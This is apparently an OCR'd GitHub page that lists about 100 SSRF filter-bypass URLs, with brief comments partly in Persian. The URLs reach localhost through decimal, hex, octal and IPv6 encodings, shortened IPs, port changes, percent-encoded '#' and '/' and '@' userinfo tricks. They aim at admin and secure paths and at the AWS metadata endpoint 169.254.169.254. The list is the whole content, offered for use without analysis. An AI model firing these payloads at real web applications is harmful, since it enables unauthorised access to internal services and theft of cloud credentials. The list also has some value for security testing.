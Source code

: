 1. http://[::1]  # IPv6 localhost
2. http://0  # نسخه دهدهی localhost
3. http://127.1  # کوتاه شده آی‌پی localhost
4. http://127.0.1.1  # آی‌پی مشابه localhost
5. http://2130706433  # نسخه دهدهی localhost
6. http://0x7F000001  # هگزادسیمال localhost
7. http://017700000001  # اکتال localhost
8. http://localhost:80  # پورت‌های مختلف
9. http://127.0.0.1:80  # پورت‌های مختلف
10. http://127.0.0.1.xip.io  # استفاده از سرویس‌هایی که آی‌پی را به دامنه تبدیل می‌کنند
11. http://localhost.burpcollaborator.net  # استفاده از دامنه‌های ترکیبی
12. http://169.254.169.254/latest/meta-data/ # AWS Metadata
13. http://[::1]:80  # آی‌پی نسخه ۶ با پورت
14. http://127.0.0.1/secure
15. http://127.1/secure
16. http://localhost/secure
17. http://2130706433/secure
18. http://[::1]/secure
19. http://0x7F000001/secure
20. http://localhost@127.0.0.1
21. http://127.0.0.1@localhost
22. http://localhost:8080/admin
23. http://127.0.0.1:8080/admin
24. http://127.0.0.1%23@localhost
25. http://localhost%23@127.0.0.1
26. http://127.0.0.1%23@127.0.0.1
27. http://localhost%23@localhost
28. http://127.0.1.1
29. http://2130706433:80
30. http://2130706433:8080
31. http://127.1:80
32. http://127.1:8080
33. http://127.0.0.1:22
34. http://127.0.0.1:443
35. http://127.0.0.1:8443
36. http://127.0.1.1:22
37. http://127.0.1.1:443
38. http://127.0.1.1:8443
39. http://[::1]:22
40. http://[::1]:443
41. http://[::1]:8443
42. http://localhost%23admin
43. http://127.0.0.1%23admin
44. http://127.0.1.1%23admin
45. http://2130706433%23admin
46. http://[::1]%23admin
47. http://127.0.0.1%252fadmin
48. http://localhost%252fadmin
49. http://127.0.1.1%252fadmin
50. http://2130706433%252fadmin
51. http://[::1]%252fadmin
52. http://127.0.0.1%2fadmin
53. http://localhost%2fadmin
54. http://127.0.1.1%2fadmin
55. http://2130706433%2fadmin
56. http://[::1]%2fadmin
57. http://127.0.0.1%2fsecure
58. http://localhost%2fsecure
59. http://127.0.1.1%2fsecure
60. http://2130706433%2fsecure
61. http://[::1]%2fsecure
62. http://localhost%40example.com
63. http://127.0.0.1%40example.com
64. http://localhost%2523example.com
65. http://127.0.0.1%2523example.com
66. http://localhost%23example.com
67. http://127.0.0.1%23example.com
68. http://localhost%252fexample.com
69. http://127.0.0.1%252fexample.com
70. http://localhost%2fexample.com
71. http://127.0.0.1%2fexample.com
72. http://127.0.0.1:%40example.com
73. http://localhost:%40example.com
74. http://127.0.1.1:%40example.com
75. http://2130706433:%40example.com
76. http://[::1]@example.com
77. http://localhost@example.com
78. http://127.0.0.1@example.com
79. http://localhost:username@example.com
80. http://127.0.0.1:username@example.com
81. http://127.0.1.1:username@example.com
82. http://2130706433:username@example.com
83. http://[::1]:username@example.com
84. http://localhost%40username@example.com
85. http://127.0.0.1%40username@example.com
86. http://localhost%23username@example.com
87. http://127.0.0.1%23username@example.com
88. http://localhost%2523username@example.com
89. http://127.0.0.1%2523username@example.com
90. http://localhost%252fusername@example.com
91. http://127.0.0.1%252fusername@example.com
92. http://localhost%2fusername@example.com
93. http://127.0.0.1%2fusername@example.com
94. http://127.0.1.1%2fusername@example.com
95. http://2130706433%2fusername@example.com
96. http://localhost@%40example.com
97. http://127.0.0.1@%40example.com
98. http://localhost@%23example.com
99. http://127.0.0.1@%23example.com
100. http://localhost@%2523example.com
101. ![IMG_20250126_120819_303](https://github.com/user-attachments/assets/43d50970-4529-4d2e-8bbc-4be647ebe8aa)
